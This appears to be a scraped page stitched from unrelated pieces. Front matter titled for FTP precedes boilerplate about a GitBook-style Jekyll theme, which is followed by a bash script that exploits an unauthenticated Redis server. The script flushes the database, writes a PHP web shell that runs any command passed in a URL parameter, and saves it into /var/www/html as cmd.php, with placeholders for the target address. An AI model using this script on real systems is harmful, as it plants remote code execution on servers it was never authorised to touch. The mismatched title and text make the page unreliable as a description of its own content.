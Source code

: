 ```yaml
---
title: 🟢 21 FTP (TCP)
author: d4t4s3c
date: 2019-04-27
category: Jekyll
layout: post
---
```


GitBook is an amazing frontend style to present and organize contents (such as book chapters
and blogs) on Web. The typical to deploy GitBook at [Github Pages][1]
is building HTML files locally and then push to Github repository, usually to the `gh-pages`
branch. However, it's quite annoying to repeat such workload and make it hard for people do
version control via git for when there are generated HTML files to be staged in and out.

This theme takes style definition out of generated GitBook site and provided the template
for Jekyll to rendering markdown documents to HTML, thus the whole site can be deployed
to [Github Pages][1] without generating and uploading HTML bundle every time when there are
changes to the original repository.

[1]: https://pages.github.com



```bash
#!/bin/bash

rhost="192.168.1.2"   # CHANGE THIS
rport="6379"          # CHANGE THIS

redis-cli -h $rhost -p $rport flushall
sleep 0.3
echo '<?php system($_GET["cmd"]); ?>' | redis-cli -h $rhost -p $rport -x set cmd
sleep 0.3
redis-cli -h $rhost -p $rport config set dir "/var/www/html"
sleep 0.3
redis-cli -h $rhost -p $rport config set dbfilename "cmd.php"
sleep 0.3
redis-cli -h $rhost -p $rport save
sleep 0.3
exit 0
```
